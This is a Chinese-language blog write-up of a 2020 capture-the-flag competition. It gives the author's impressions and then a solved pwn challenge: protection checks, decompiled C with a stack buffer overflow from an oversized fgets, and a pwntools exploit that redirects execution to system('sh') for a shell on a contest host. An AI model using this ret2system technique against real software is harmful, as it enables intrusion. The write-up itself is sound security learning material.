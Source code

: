```yaml
---
title: 2020年金盾獎
date: 2020-12-17 21:03:22
tags: 
  - pwn
  - comps
  - write ups
---
```


## 心得寫在前
<!-- more -->
### 10/17 初賽
這是我第一次參加金盾獎

初賽的題目總共是四題，競賽時間是兩小時，然後我想抱怨一下:

官網寫包含很多類別，其中有Misc, 但其實每題都是Misc= = (+forensics)

然後工作人員好像自己也不太懂(?)，好這不重要，反正題目幾乎都是鑑識，我不會QQ

只解了第一題就進決賽xD

### 10/20 決賽
其實當初沒有想到會進決賽，想當然爾，我們是墊底進的Orz

今年的題目有所謂的 “教學題”，就是直接提供解法，但會扣分(400 -> 100)

似乎是怕有人會掛蛋嘛XDDDD

賽中出題者好像不太懂分類(?)，把Web出到Pwn去，然後Reverse = Pwn

最後我們燒雞，我解出一題(唯一的)PWN(假Reverse)，然後隊友開了Crypto_教學題的題示

然後就拿到第三了XDD，直接拿一萬回家

### 決賽
這次我唯一解出的題目是 Reverse_教學題

雖說是reverse啦，但看題敘可以明顯看出是有關Buffer Overflow，我引用一小段:

`…小明發現輸入過長的資料會導致 Segmentation Fault…`
看到這邊大概就有底了，然後再打開Binary:

#### 保護機制
```bash
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
開了NX, 沒開Canary，很明顯是要stack overflow，接著看組語:
#### 分析:
`main()`:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  checkInfo();
  system("exit");
  return 0;
}
```
呼叫了`checkInfo()`, 接著就exit，注意這邊用了`system()`

`checkInfo()`:
```c
void checkInfo()
{
  char password[10]; // [esp+16h] [ebp-412h]
  char account[1024]; // [esp+20h] [ebp-408h]

  memset(account, 0, sizeof(account));
  *(_DWORD *)password = 0;
  *(_DWORD *)&password[4] = 0;
  *(_WORD *)&password[8] = 0;
  printf("Please input account: ");
  fflush(stdout);
  fflush(stdin);
  fgets(account, 10240, stdin);
  if ( strchr(account, 64) )
  {
    printf("account is : ");
    fflush(stdout);
    printf(account);
    fflush(stdout);
    putchar(10);
  }
  else
  {
    puts("account failed");
  }
  fflush(stdout);
  printf("Please input password: ");
  fflush(stdout);
  fflush(stdin);
  fgets(password, 1024, stdin);
  if ( !strcmp(password, "123456") )
  {
    printf("password is : ");
    fflush(stdout);
    printf(password);
    fflush(stdout);
    putchar(10);
  }
  else
  {
    puts("password failed");
  }
  fflush(stdout);
}
```
這邊可以看到`password[10], account[1024]`，但`fgets()`讀了10240，明顯的buffer overflow

指向`system@plt`，接著布置參數就好
#### exploit
```python
#!/usr/bin/env python2
from pwn import *
import pwnlib.elf
context.log_level = 'debug'

e = ELF('./check_passwd')
p = process('./check_passwd')
p = remote('10.3.202.18', 6666)

payload = '\x00'*1036
payload += p32(e.symbols['system'])
payload += p32(e.symbols['main'])
payload += p32(e.search('sh').next())

p.sendlineafter(':', payload)
#p.sendline('A')

p.interactive()
p.close()
```

